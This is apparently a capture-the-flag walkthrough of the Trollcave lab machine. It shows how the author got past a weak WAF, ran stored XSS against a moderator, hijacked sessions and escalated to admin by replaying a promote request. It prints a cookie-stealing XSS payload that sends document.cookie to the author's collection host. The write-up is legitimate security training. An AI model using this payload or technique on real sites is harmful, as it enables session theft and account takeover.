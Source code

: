 While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>`

All I needed on the backend was a simple little Python script to collect the cookies being sent to my IP address. My assumption was correct - the page was being periodically accessed by cooldude89, and I shortly harvested his cookie and used it to log in as him. Now as moderator, I was able to set my sights on a higher prize.

## Escalating from Moderator

Above the role of moderator, there were two roles I didn't yet have access to: admin and superadmin. Once again, the blogs provided a valuable hint. This time, it came in the form of a blog post visible only to moderators that documents a "promote" functionality. Basically, any moderator can "promote" any regular member into a moderator. This is handy for escalating xer into a mod so I don't have to modify a cookie every time I want to log in, but it doesn't help me get to admin... or does it?

When you promote someone to moderator, a POST request is made to a URI that looks something like `/users/12/mod`. After you've promoted them, the "mod" button goes away. This client-side control is intended to stop you from promoting someone who has already been promoted - but what if you just replay the POST request? By making a request to promote someone who is already a moderator, it is possible to promote them into an admin. The only catch is that you can't do it to yourself - so I promoted xer into a mod, then an admin.

## Escalating from Admin

Only one hurdle remains: the superadmin account. There is only one superadmin: King. As before, Trollcave has a hint for us. I had suspected that the file upload functionality - which is disabled - would eventually be how I got code execution. This was all but confirmed by an admin-only post which indicated that it was disabled due to "security concerns", and that only the superadmin could enable it. Another admin-only blog post informed us that King has quit to "find himself", and that dragon has taken his account - so we need to escalate laterally to his account. Whoever has King has access to the file upload functionality, which is the way in.
